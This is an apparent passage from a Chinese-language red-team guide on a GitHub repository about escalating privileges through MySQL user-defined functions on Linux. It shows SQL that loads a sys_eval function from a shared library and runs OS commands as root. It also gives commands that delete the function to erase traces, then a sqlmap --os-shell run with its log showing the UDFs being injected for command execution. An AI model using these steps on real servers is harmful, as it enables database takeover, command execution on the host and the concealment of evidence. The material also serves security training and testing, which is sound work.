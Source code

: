 ```
mysql> create function sys_eval returns string soname "mysqludf.so";
Query OK, 0 rows affected (0.03 sec)
mysql>
```



1. 函数操作

```
# 调用函数
mysql> select sys_eval('whoami');
+--------------------+
| sys_eval('whoami') |
+--------------------+
| root               |
+--------------------+
1 row in set (0.03 sec)

# 查看函数
mysql> select * from mysql.func;
+----------+-----+-------------+----------+
| name   | ret | dl     | type   |
+----------+-----+-------------+----------+
| sys_eval |  0 | mysqludf.so | function |
+----------+-----+-------------+----------+
1 row in set

# 删除函数（清除痕迹）,如果要删除函数,必须udf文件还存在plugin目录下
drop function sys_eval;
或
delete from mysql.func where name='sys_eval';
```



### [2.2 利用sqlmap](https://github.com/SEC-GO/Red-vs-Blue/blob/master/linux环境下的MySQL UDF提权.md#22-利用sqlmap)

\####全自动化

```
sqlmap.py -d "mysql://root:root@172.20.10.9:3306/mysql" --os-shell

...
[11:53:40] [INFO] connection to MySQL server '172.20.10.9:3306' established
[11:53:40] [INFO] testing MySQL
[11:53:40] [INFO] confirming MySQL
[11:53:40] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[11:53:40] [INFO] fingerprinting the back-end DBMS operating system
[11:53:40] [INFO] the back-end DBMS operating system is Linux
[11:53:40] [INFO] testing if current user is DBA
[11:53:40] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[11:53:45] [INFO] checking if UDF 'sys_exec' already exist
[11:53:45] [INFO] checking if UDF 'sys_eval' already exist
[11:53:50] [INFO] detecting back-end DBMS version from its banner
[11:53:50] [INFO] the local file '/var/folders/bx/zb9__nb1591g_r8k78p5p0gr0000gn/T/sqlmap_5_qd1_y51533/lib_mysqludf_sysp478pm69.so' and the remote file './libsoxbd.so' have the same size (8040 B)
[11:53:50] [INFO] creating UDF 'sys_exec' from the binary UDF file
[11:53:50] [INFO] creating UDF 'sys_eval' from the binary UDF file
[11:53:50] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
```